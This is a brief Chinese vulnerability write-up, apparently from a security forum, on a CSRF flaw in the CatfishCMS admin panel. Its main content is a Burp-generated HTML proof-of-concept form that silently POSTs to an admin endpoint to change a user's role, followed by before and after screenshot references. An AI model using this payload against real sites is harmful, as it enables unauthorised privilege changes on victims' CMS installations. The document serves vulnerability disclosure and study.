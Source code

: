 # CatfishCMS后台csrf

> 原文：[https://www.zhihuifly.com/t/topic/2835](https://www.zhihuifly.com/t/topic/2835)

# CatfishCMS后台csrf

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

首先需要登录后台

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
  <form action="http://0-sec.org/index.php/admin/index/modifymanage.html?c=73" method="POST">
      <input type="hidden" name="uid" value="73" />
      <input type="hidden" name="juese" value="3" />
      <input type="hidden" name="verification" value="05f176843c20e12c1364e80b9869ac17" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```

修改前

![image](img/ee21b48a30d913fea6ec98ba097af76f.png)

修改后

![image](img/2c361930ecb8c3da0eae8de9fabf19db.png)